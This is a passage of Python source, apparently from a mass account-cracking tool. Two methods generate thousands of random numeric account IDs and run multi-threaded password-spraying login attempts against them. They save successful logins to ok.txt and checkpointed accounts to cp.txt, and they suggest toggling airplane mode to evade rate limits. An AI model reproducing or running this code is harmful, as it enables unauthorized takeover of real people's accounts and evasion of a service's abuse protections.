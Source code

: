 
	def old4_6(self):
		x = 1111111
		xx = 9999999
		#idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(10000 MAX): \033[0;92m"))
		if (limit)>10000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		
		
	def old4_5(self):
		x = 111111
		xx = 999999
		idx = input("%s [+] ENTER A DIGIT (1-9): %s"%(Y,G))
		#idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G)) 
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		